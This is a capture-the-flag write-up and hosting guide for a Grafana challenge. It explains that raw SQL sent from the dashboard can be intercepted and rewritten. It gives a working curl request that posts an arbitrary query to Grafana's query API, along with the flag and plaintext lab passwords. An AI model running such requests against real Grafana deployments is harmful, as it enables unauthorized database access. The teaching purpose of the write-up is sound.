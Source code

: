 # Grafana Writeup
This Grafana problem was actually copied from a previous CTF I was in, but loved it so much I wanted to duplicate it on our own. Grafana has a cool little "feature" where SQL queries are actually sent in plaintext from the browser to the back-end, executed, and the results returned. The dashboard loads the queries in the browser and sends them, but if you catch the outgoing request, you can modify the query to be whatever you want, effectively giving you full access over the database. 

Users were given anonymous access to the Grafana access, but it still has this vulnerability (that is just a part of the Grafana design for some reason). When you load the page, the dashboard is broken, but the SQL query is still sent back and can be seen in the Network tab. If you capture the request and insert the payload `SELECT * FROM flag`, it will return the flag.

![](query.png)

An example command using cURL is below:

```bash
curl http://localhost:40010/api/ds/query -X POST --header 'Content-Type: application/json' -d '{"queries":[{"refId":"A","datasource":{"uid":"ctAhPmynz","type":"postgres"},"rawSql":"select * from flag;","format":"table","datasourceId":1,"intervalMs":30000,"maxDataPoints":716}],"range":{"from":"2022-03-25T01:09:57.542Z","to":"2022-03-25T07:09:57.542Z","raw":{"from":"now-6h","to":"now"}},"from":"1648170597542","to":"1648192197542"}'
```

**Flag** - `byuctf{qu3ry_1nj3ct10n_1s_4_"f34tur3"_1n_gr4f4n4}`

## Hosting
1. Spin up docker images
    - `sudo docker-compose rm -f && sudo docker-compose up -d`
2. Populate postgresql db
    - `psql -U postgres -h localhost < postgresql_build/sportsdb.sql` with password `tuiuiqxcugomqzxftelsmpfvbsjbkjre`
3. Setup Grafana
    - Sign in with username `admin` and password `miloxgxhcamdtsgmkjuaoqegwuywlyjq`
    - Add postgresql datasource
        - Host - `172.x.x.x:5432`
        - Database - `postgres`
        - User - `grafana_user`
        - Password - `nwfnqhzujqfagusdaahrdwlthhlwhwkf`
        - TLS/SSL Mode - `disable`
    - Add new dashboard "Broken Sports Dashboard"
        - Add new panel with raw query `select affiliation_type, count(affiliation_type) from affiliations group by affiliation_type`, format as table